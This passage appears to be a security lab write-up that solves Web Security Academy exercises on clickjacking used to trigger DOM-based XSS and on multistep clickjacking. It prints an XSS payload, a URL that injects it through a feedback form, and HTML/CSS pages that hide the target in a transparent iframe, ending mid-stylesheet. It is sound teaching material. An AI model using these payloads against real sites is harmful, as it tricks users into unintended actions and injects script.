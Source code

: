 # Exploiting clickjacking vulnerability to trigger DOM-based XSS

In this case in the submit feedback page we have a vulnerable field to XSS, in this case is the name field.

```html
<img src=x onerror=print()>
```

But how we can trigger this XSS. 

If you inspect the code, you can try using the attribute name values and loading into the URL to see if are loaded into the input box.

> `https://0ae40046047f7ed98085f8c3003500aa.web-security-academy.net/feedback?name=<img src=x onerror=print()>&email=test@test.com&subject=test&message=test`

And it works, this load automatically in the fields.

```html
<style>
iframe {
width: 100%;
height: 100%;
border: none;
opacity: 0.0001;
}

div {
position: absolute;
top:832px;
left: 405px;
}

</style>

<div>Click me</div>
<iframe scrolling="no" src="https://0ae40046047f7ed98085f8c3003500aa.web-security-academy.net/feedback?name=%3Cimg%20src=0%20onerror=print()%3E&email=pwned@pwned.com&subject=test&message=testing"></iframe>
```

# Multistep clickjacking

In this laboratory we have a delete button, but the problem is that appear a confirmation dialog, to do this the "user" have to click two times. You can play with classes in css to place them in different locations.

```html
<style>
iframe {
height: 100%;
width: 100%;
border: none;
opacity: 0.0001;
}

.firstClick {
position: absolute;
top: 530px;
left: 400px;
}

.secondClick{
position: absolute;
```